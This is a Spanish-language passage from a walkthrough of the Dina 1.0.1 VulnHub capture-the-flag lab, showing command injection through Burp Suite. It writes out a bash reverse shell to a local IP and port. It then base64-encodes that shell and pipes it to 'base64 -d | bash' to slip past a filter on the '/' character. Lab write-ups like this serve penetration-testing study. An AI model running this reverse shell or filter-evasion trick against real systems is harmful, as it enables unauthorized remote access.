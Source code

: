 ### Burpsuite

![](/assets/images/Dina_1_0_1/burpsuite.png)

### Injeccion reverse shell

![](/assets/images/Dina_1_0_1/reverse.png)

Podríamos pensar que siguiendo este método obtendríamos la shell, pero cualquier comando que utilice `/` nos da un error, por ello investigando diferentes formas de evitar el uso de / dí con la clave, 
gracias a <a href="https://netosec.com/dina-101-vulnhub-walkthrough/" target="_blank">NetOsec</a>, enviar el comando en base64.<br><br> La sintaxis para transformar una cadena de texto a base64 es: 
`echo -n "cadena" | base64`.<br><br>
La reverse shell en base64 quedaría tal que así `bash -i >& /dev/tcp/192.168.1.84/1234 0>&1 = YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuODQvMTIzNCAwPiYx`.

Nos ponemos por escucha en el puerto indicado e inyectamos el comando en base64, le pasamos el párametro -d para decodificarlo a texto plano y lo pipeamos con `bash` para que el servidor ejecute
la reverse shell en bash. Nos quedará tal que así: `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuODQvMTIzNCAwPiYx-n | base64 -d | bash`

